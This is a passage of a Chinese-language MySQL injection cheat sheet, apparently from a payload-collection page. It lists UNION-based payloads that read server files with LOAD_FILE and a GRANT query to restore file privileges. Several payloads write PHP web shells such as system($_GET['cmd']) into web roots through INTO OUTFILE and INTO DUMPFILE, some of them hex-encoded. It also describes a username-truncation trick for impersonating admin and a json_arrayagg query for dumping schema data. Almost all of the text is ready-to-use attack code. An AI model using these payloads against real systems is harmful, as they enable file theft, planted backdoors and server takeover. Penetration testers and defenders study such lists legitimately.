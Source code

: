 ```sql
UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
```

如果您是数据库上的 `root` 用户，可以使用以下查询重新启用 `LOAD_FILE`

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```

## MySQL 写入 shell

### 输出到文件方法

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### 输出到转储文件方法

```sql
[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

## MySQL 截断

在 MySQL 中，“`admin `”和“`admin`”是相同的。如果数据库中的用户名字段有字符限制，其余的字符将被截断。因此，如果数据库的列限制为20个字符，我们输入一个包含21个字符的字符串，最后一个字符将被移除。

```sql
`username` varchar(20) not null
```

有效载荷：`username = "admin               a"`

## MySQL 快速利用

要求：`MySQL >= 5.7.22`

使用 `json_arrayagg()` 而不是 `group_concat()`，它允许显示更少的符号

* group_concat() = 1024符号
* json_arrayagg() > 16,000,000符号

```sql
SELECT json_arrayagg(concat_ws(0x3a,table_schema,table_name)) from INFORMATION_SCHEMA.TABLES;
```
